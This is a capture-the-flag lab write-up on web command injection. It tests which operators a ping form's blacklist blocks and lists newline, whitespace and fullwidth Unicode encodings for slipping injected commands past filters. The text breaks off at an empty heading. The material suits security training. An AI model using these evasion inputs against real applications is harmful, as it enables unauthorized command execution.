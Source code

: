### HTB Academy Lab Results

**Question:** Which of (new-line, &, |) is not blacklisted by the web application?

**Testing Process:**

**New Line Test:**
```http
ip=127.0.0.1%0a
# Result: Normal ping output - NOT BLOCKED ✅
```

**Ampersand Test:**
```http
ip=127.0.0.1%26  
# Result: "Invalid input" - BLOCKED ✗
```

**Pipe Test:**
```http
ip=127.0.0.1%7c
# Result: "Invalid input" - BLOCKED ✗
```

**Answer:** **new-line** (`\n` / `%0a`) is not blacklisted by the web application.

---

## Advanced Filter Detection

### Testing Alternative Characters

**Extended Character Set:**
```bash
# Test various encodings and alternatives
\n    → %0a     → newline (often allowed)
\r    → %0d     → carriage return  
\r\n  → %0d%0a  → Windows line ending
\t    → %09     → tab character
\v    → %0b     → vertical tab
\f    → %0c     → form feed
space → %20     → regular space
```

**Unicode Alternatives:**
```bash
# Unicode variations (if application supports)
;     → %3b     → standard semicolon
;     → %uff1b  → fullwidth semicolon
&     → %26     → standard ampersand  
＆    → %ef%bc%86 → fullwidth ampersand
```

### Command Detection Testing

